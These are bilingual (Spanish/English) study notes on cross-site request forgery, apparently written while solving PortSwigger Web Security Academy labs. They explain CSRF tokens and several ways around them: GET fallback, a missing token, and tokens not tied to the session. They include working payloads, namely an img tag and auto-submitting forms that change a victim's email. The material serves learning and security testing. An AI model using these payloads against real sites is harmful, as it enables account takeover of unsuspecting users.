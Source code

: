 # Cross-site request forgery (CSRF)

> Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy,
>  which is designed to prevent different websites from interfering with each other.


## What are CSRF tokens?

> A CSRF token is a unique, secret, unpredictable value that is generated by the server-side application and transmitted to the client in such a way that it is included in a subsequent HTTP request made by the client. When the later request is made, 
> the server-side application validates that the request includes the expected token and rejects the request if the token is missing or invalid.

***Puede ayudar a proteger contra XSS reflejados*** porque:

> CSRF tokens can prevent CSRF attacks by making it impossible for an attacker to construct a fully valid HTTP request suitable for feeding to a victim user. 
Since the attacker cannot determine or predict the value of a user's CSRF token, they cannot construct a request with all the parameters that are necessary for the application to honor the request.


## How should CSRF tokens be validated?

> When a CSRF token is generated, it should be stored server-side within the user's session data. When a subsequent request is received that requires validation, the server-side application should verify that the request includes a token which matches the value that was stored in the user's session. This validation must be performed regardless of the HTTP method or content type of the request. If the request does not contain any token at all, it should be rejected in the same way as when an invalid token is present.

## Como atacar 

> The delivery mechanisms for cross-site request forgery attacks are essentially the same as for reflected XSS. Typically, the attacker will place the malicious HTML onto a web site that they control, and then induce victims to visit that web site. This might be done by feeding the user a link to the web site, via an email or social media message. Or if the attack is placed into a popular web site (for example, in a user comment), they might just wait for users to visit the web site.

Por ejemplo:

```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">

```

Algunas ocaciones la aplicacion valida el TOKEN cuando se hace una peticion POST pero ***NO valida cuando se realiza una peticion GET***
Otras ocaciones la aplicaciones permiten hacer cosas sin el token asi que hay que probar.
Tambien otra vulnerabilidad es que la app usa un pool de tokens entonces tu podrias crearte un usuario obtener un token valido e intentar usarlo para otros usuarios.
Otro vector de ataque es que se asigna un token en base a la cookie.

> This situation is harder to exploit but is still vulnerable. If the web site contains any behavior that allows an attacker to set a cookie in a victim's browser, then an attack is possible. The attacker can log in to the application using their own account, obtain a valid token and associated cookie, leverage the cookie-setting behavior to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack.

# Labs

##  CSRF vulnerability with no defenses

Para este lab no se tiene defensas entonces con que la victima de click en un codigo como este:

```

<form method="POST" action="https://0a0d00b604a855c2c086536600b800d8.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="a1&#64;test&#46;com">
</form>
<script>
        document.forms[0].submit();
</script>

```

Se estaria cambiando su email.

## CSRF where token validation depends on request method

Para este ejemplo si cuenta la app con proteccion pero solo para el metodo post pero si lo intentas por el metodo GET si cambia el email aqui el ejemplo

```
<form method="GET" action="https://0a1f006e03d8dd12c0fe542800c400ba.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="a1&#64;test&#46;com">
</form>
<script>
        document.forms[0].submit();
</script>

```

## CSRF where token validation depends on token being present

En este caso si ves burp cuando se realiza la peticion y modificas el toquen CSRF no realiza la peticion pero si se lo quitas completamente entonces si
cambia.


```
Mismo codigo que la peticion POST(arriba)
```

## CSRF where token is not tied to user session

En este caso el token CSRF no se tiene alineado con una sesion si no que mientras sea un token valido aplica para cualquier cookie
para llevar acabo el ataque se debe de interceptar el token cuando se va a cambiar el email en este caso el tuyo de tu cuenta 
que tienes control y posteriormente generar el ataque:

```
<form method="POST" action="https://0a5700ee037a2cddc05e1e0900a6006e.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="a1&#64;test&#46;com"> 
    <input type="hidden" name="csrf" value="eqbRsc6Ot2hIrzUbUZUYn6CEvoHBLAJ3">
</form>
<script>
        document.forms[0].submit();
</script>


```


NOTA: Se puede utilizar la herramienta "csrf-poc-generator-master" para generar un poc de una peticion genera un script parecido.

